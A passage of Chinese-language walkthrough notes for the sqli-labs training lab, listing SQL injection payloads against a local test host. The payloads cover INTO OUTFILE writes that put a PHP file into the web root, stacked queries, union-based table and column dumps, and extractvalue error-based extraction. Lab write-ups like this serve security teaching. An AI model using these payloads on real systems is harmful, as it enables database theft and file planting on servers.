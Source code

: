| ?sort=1   into outfile "f:\\2.txt"                           | 将查询结果导入到文件当中                          |
| ?sort=1' into outfile "E:\\Website\\phpStudy\\PHPTutorial\\WWW\\1.php" lines terminated by   0x3c3f70687020706870696e666f28293b3f3e2020 --+    要求两个\\ | 写文件                                            |

 

# Less-50 order by stackedinjection

执行 sql 语句我们这里使用的是 `mysqli_multi_query()`函数，而之前我们使用的是 `mysqli_query()`，区别在于 mysqli_multi_query()可以执行多个 sql 语句，而 mysqli_query()只能执行 一个 sql 语句，那么我们此处就可以执行多个 sql 语句进行注入，也就是我们之前提到的 statcked injection。

 

| 注入语句                                      | 数据库语句 |
| --------------------------------------------- | ---------- |
| ?sort=1';create   table less51 like users;--+ |            |

 

 

# Less54 challenges

获取数据库中的表



http://127.0.0.1/Range/sqli-labs-master/Less-54/index.php?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+`

获取数据库中的列

http://127.0.0.1/Range/sqli-labs-master/Less-54/index.php?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='r72tr45smo' --+

获取数据库列的数据

<http://127.0.0.1/Range/sqli-labs-master/Less-54/index.php?id=-1'union> select 1,2,group_concat(secret_FKE1) from challenges.r72tr45smo --+

 

 

# Less58

<http://127.0.0.1/Range/sqli-labs-master/Less-58/?id=-1'union> select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e))--+

<http://127.0.0.1/Range/sqli-labs-master/Less-58/?id=-1'union> select extractvalue(1,concat(0x7e,(select group_concat(secret_N3FR) from challenges.hnzvklti02),0x7e))--+

<http://127.0.0.1/Range/sqli-labs-master/Less-58/?id=-1'union> select extractvalue(1,concat(0x7e,(select group_concat(secret_N3FR) from challenges.hnzvklti02),0x7e))--+

 

# Less62
